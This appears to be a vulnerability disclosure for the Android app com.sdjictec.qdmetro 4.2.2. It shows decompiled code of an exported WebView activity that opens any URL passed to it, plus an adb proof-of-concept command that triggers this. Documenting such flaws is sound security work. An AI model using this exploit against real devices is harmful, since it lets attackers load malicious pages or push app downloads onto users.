

# com.sdjictec.qdmetro

com.sdjictec.qdmetro contains an export component AdSdkH5Activity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking. It can also be used to download other malicious apps.

- package: com.sdjictec.qdmetro
- version: 4.2.2
- url: https://os-android.liqucn.com/rj/954072.shtml

```xml
<activity
    android:theme="@style/Theme.AppCompat.NoActionBar"
    android:name="com.bwt.top.p351h5.AdSdkH5Activity"
    android:exported="true"/>
```

```java
package com.bwt.top.p351h5;
public class AdSdkH5Activity extends Activity {
    public static final String ISDOWNLOAD = "isDownload";
    public static final String URL = "url_str";

    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(C6615R.C6618layout.activity_ad_sdk_h5);
        if (getIntent() == null) {
            adClose();
            finish();
            return;
        }
        ...
        initWebView();
        String stringExtra = getIntent().getStringExtra(URL);
        this.mIsWebDownload = getIntent().getBooleanExtra(ISDOWNLOAD, false);
        loadUrl(stringExtra);
        String str = this.TAG;
        ALog.m25898d(str, "loadUrl:" + stringExtra);
    }

    private void loadUrl(String str) {
        WebView webView = this.mWebView;
        if (webView == null || str == null) {
            return;
        }
        webView.loadUrl(str);
    }

    private void initWebView() {
        this.mWebView.setVisibility(8);
        this.mWebView.getSettings().setSaveFormData(true);
        this.mWebView.getSettings().setDomStorageEnabled(true);
        this.mWebView.getSettings().setDatabaseEnabled(true);
        this.mWebView.getSettings().setAppCacheEnabled(true);
        this.mWebView.getSettings().setJavaScriptEnabled(true);
        ...
        this.webViewClient = new MWebViewClient();
        this.webChromeClient = new MWebChromeClient();
        this.mWebView.setDownloadListener(null);
        this.mWebView.setWebViewClient(this.webViewClient);
        this.mWebView.setWebChromeClient(this.webChromeClient);
    }

    public class MWebViewClient extends WebViewClient {
        @Override
        public boolean shouldOverrideUrlLoading(WebView webView, String str) {
            String str2 = AdSdkH5Activity.this.TAG;
            ALog.m25896i(str2, "shouldOverrideUrlLoading url:" + str);
            try {
                if (TextUtils.isEmpty(str)) {
                    return false;
                }
                if (str.startsWith("http")) {
                    if (str.endsWith(".apk") && AdSdkH5Activity.this.mIsWebDownload) {
                        Message obtain = Message.obtain();
                        obtain.obj = str;
                        AdSdkH5Activity.this.mWebDownloadHandler.sendMessage(obtain);
                        return true;
                    }
                    return false;
                }
                Intent intent = new Intent();
                intent.setAction("android.intent.action.VIEW");
                intent.setData(Uri.parse(str));
                intent.addFlags(268435456);
                if (intent.resolveActivity(AdSdkH5Activity.this.getPackageManager()) != null) {
                    AdSdkH5Activity.this.startActivity(intent);
                }
                return true;
            } catch (Exception e) {
                e.printStackTrace();
                return false;
            }
        }
    }
```

PoC:

```sh
$ adb shell am start -n com.sdjictec.qdmetro/com.bwt.top.h5.AdSdkH5Activity -e "url_str" "https://www.windows93.net"
```


